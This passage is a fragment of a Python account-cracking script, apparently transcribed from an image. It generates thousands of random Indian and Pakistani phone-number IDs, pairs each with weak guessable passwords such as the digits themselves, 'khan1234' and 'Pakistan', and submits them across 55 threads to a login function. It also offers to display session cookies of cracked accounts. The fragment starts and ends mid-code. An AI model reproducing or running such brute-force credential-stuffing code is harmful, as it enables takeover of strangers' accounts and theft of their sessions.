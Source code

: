     print("");linex();print(f"{rad}[{white}◆{rad}] {green}PROCESS HAS BEEN COMPLETED");print(f"{rad}[{white}◆{rad}] {green}TOTAL OK   {white}▶︎ {green}{len(oks)}");linex();exit()
#━━━━[ INDIAN RANDOM ]━━━━#
def INDIA():
    user=[]
    ck=[]
    ____banner____()
    code = input(f"{rad}[{white}◆{rad}] {green}SIM CODES {white} ▶︎ {rad}[{white}+91639 +91934 +91902 +91701{rad}]\n{rad}[{white}◆{rad}]{green} SELECTION  {white}▶︎ {yelloww}")
    limit = int(input(f"{rad}[{white}◆{rad}] {green}EXAMPLE {white}   ▶︎ {rad}[{white}10000 20000 30000{rad}]\n{rad}[{white}◆{rad}] {green}LIMITS     {white}▶︎ {yelloww}"))
    xmk = input(f"{rad}[{white}◆{rad}] {green}WANT TO SEE COOKIE {rad}[{green}Y{white}/{green}N{rad}] {white}▶︎ {yelloww}")
    for _ in range(limit):
        user.append("".join(random.choices(string.digits, k=7)))
    if xmk == "Y" or xmk == "y":
        ck.append("Y")
    elif xmk == "N" or xmk == "n":
        ck.append('N') 
    else:
        ck.append('N')
    with tred(max_workers=55) as SamandarSefat:
        ____banner____();tl = str(len(user))
        print(f'{rad}[{white}◆{rad}] {green}SIM CODE{rad}┼{white}{code}{rad}┼{green}TOTAL IDS{rad}┼{white}{tl}')
        print(f'{rad}[{white}◆{rad}] {green}IF NO RESULT [{white}On{orange}/{white}Off{green}] AIRPLANE MODE')
        linex()
        for love in user:
            ids = code+love
            passlist = [love,ids, '57575751', '57273200', '59039200']
            SamandarSefat.submit(__API__,ids,passlist,tl,ck)
    print("");linex();print(f"{rad}[{white}◆{rad}] {green}PROCESS HAS BEEN COMPLETED");print(f"{rad}[{white}◆{rad}] {green}TOTAL OK   {white}▶︎ {green}{len(oks)}");linex();exit()
#━━━━[ PAKISTAN RANDOM ]━━━━#
def PAKISTAN():
    user=[]
    ck=[]
    ____banner____()
    code = input(f"{rad}[{white}◆{rad}] {green}SIM CODES {white} ▶︎ {rad}[{white}0310 0320 0330 0340{rad}]\n{rad}[{white}◆{rad}]{green} SELECTION  {white}▶︎ {yelloww}")
    limit = int(input(f"{rad}[{white}◆{rad}] {green}EXAMPLE {white}   ▶︎ {rad}[{white}10000 20000 30000{rad}]\n{rad}[{white}◆{rad}] {green}LIMITS     {white}▶︎ {yelloww}"))
    xmk = input(f"{rad}[{white}◆{rad}] {green}WANT TO SEE COOKIE {rad}[{green}Y{white}/{green}N{rad}] {white}▶︎ {yelloww}")
    for _ in range(limit):
        user.append("".join(random.choices(string.digits, k=7)))
    if xmk == "Y" or xmk == "y":
        ck.append("Y")
    elif xmk == "N" or xmk == "n":
        ck.append('N') 
    else:
        ck.append('N')
    with tred(max_workers=55) as SamandarSefat:
        ____banner____();tl = str(len(user))
        print(f'{rad}[{white}◆{rad}] {green}SIM CODE{rad}┼{white}{code}{rad}┼{green}TOTAL IDS{rad}┼{white}{tl}')
        print(f'{rad}[{white}◆{rad}] {green}IF NO RESULT [{white}On{orange}/{white}Off{green}] AIRPLANE MODE')
        linex()
        for love in user:
            ids = code+love
            au = love[:6];bu = ids[:8];passlist = [love,ids,au,bu, 'khankhan', 'khan khan', 'khan1234', 'khan12345', 'Pakistan', '203040']